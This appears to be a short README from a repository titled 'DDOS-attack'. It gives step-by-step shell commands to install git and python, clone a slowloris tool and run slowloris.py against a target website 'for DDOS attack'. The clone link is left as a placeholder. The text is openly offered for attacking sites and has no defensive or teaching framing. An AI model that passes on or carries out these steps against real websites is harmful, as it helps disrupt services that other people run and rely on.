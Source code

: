 # DDOS-attack
pkg install git

pkg install python

git clone (enter the github link0

cd slowloris

python slowloris.py (enter the name of website for DDOS attack)
